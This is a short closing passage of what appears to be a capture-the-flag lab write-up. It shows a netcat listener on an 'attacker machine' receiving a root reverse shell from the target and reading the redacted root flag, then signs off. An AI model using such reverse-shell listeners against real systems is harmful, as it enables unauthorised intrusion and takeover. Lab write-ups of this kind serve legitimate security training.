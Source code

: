 ```bash
# Attacker Machine
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.100] 38304
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you in the next post :smile:
